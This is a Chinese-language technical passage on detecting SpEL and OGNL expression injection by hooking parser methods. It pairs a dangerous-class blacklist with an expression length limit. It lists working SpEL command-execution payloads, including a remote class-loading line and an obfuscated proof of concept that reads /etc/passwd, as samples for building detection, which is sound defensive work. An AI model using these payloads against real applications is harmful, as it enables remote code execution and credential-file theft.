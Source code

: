 ## 10.4 Hook点与检测算法

### 10.4.1 Hook点的选择

对于SPEL表达式注入，选择类org.springframework.expression.common.TemplateAwareExpressionParser
的`parseExpression`方法，该方法的源码如下：

![img_8.png](img_8.png)

对于OGNL表达式注入，选择类ognl.OgnlParser的`topLevelExpression`方法，该方法的源码如下：

![截屏2024-04-05 下午6.03.16.png](img_9.png)

### 10.4.2 表达式注入与检测算法

由于OGNL与SPEL表达式除了Hook方法不一样，检测算法几乎一样，这里以SPEL表达式的检测算法为例子说明。

+ 黑名单检测

先来看下常见的具备攻击能力的表达式写法：

```java
// 使用java.lang.ProcessBuilder执行命令
new java.lang.ProcessBuilder(new String[]{"open","/System/Applications/Calculator.app"}).start()
// 使用ProcessBuilder执行命令
new ProcessBuilder(new String[]{"open","/System/Applications/Calculator.app"}).start()        
// 使用java.lang.Runtime执行命令
T(java.lang.Runtime).getRuntime().exec("open /System/Applications/Calculator.app")
// 使用Runtime执行命令
T(Runtime).getRuntime().exec(new String[]{"open","/System/Applications/Calculator.app"})
// nashorn 引擎
new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("s=[2];s[0]='open';s[1]='/System/Applications/Calculator.app';java.lang.Runtime.getRuntime().exec(s);")
// javascript 引擎
new javax.script.ScriptEngineManager().getEngineByName("javascript").eval("s=[2];s[0]='open';s[1]='/System/Applications/Calculator.app';java.lang.Runtime.getRuntime().exec(s);")
// 类加载
new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://127.0.0.1:8999/Exp.jar")}).loadClass("Exp").getConstructors()[0].newInstance("127.0.0.1:2333")        
// 反射 java.lang.Runtime
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.Runtime").getRuntime().exec("open /System/Applications/Calculator.app")
// 反射 java.lang.ProcessBuilder
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.ProcessBuilder").getConstructors()[1].newInstance(new String[]{"open","/System/Applications/Calculator.app"}).start()
```

检测表达式中是否存在指定的类，这些类能够执行命令、脚本或者读取文件等，如下所示：
```java
System
Runtime
ProcessBuilder
java.lang.Runtime
java.lang.ProcessBuilder
javax.script.ScriptEngineManager
java.lang.System
org.springframework.cglib.core.ReflectUtils
java.io.File
java.net.URL        
javax.management.remote.rmi.RMIConnector
// ....
```

+ 最大长度限制

上面列的攻击方式还有其他的变种，如果仅限上面的黑名单类，很容易被绕过。
某个命令执行回显的POC如下，显然其长度超过了正常表达式的长度。一般应用的表达式不会太长，因此可以对表达式的长度做一个限制。
如SPEL表达式字符串的长度一般在30～200，超过了最大的长度可以记录日志，方便离线分析。
```java
T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character)
        .toString(99)
        .concat(T(java.lang.Character).toString(97))
        .concat(T(java.lang.Character).toString(116))
        .concat(T(java.lang.Character).toString(32))
        .concat(T(java.lang.Character).toString(47))
        .concat(T(java.lang.Character).toString(101))
        .concat(T(java.lang.Character).toString(116))
        .concat(T(java.lang.Character).toString(99))
        .concat(T(java.lang.Character).toString(47))
        .concat(T(java.lang.Character).toString(112))
        .concat(T(java.lang.Character).toString(97))
        .concat(T(java.lang.Character).toString(115))
        .concat(T(java.lang.Character).toString(115))
        .concat(T(java.lang.Character).toString(119))
        .concat(T(java.lang.Character).toString(100)))
        .getInputStream())
```

下图为SPEL表达式的常用检测算法，黑名单算法的优先级高于长度限制算法。
 ![img_10.png](img_10.png)

参考：https://xz.aliyun.com/t/9245?time__1311=n4%2BxuDgD9DyDRGCDCD0DBMb7evwoa4ECDfrD&alichlgref=https%3A%2F%2Fbaidu.com%2F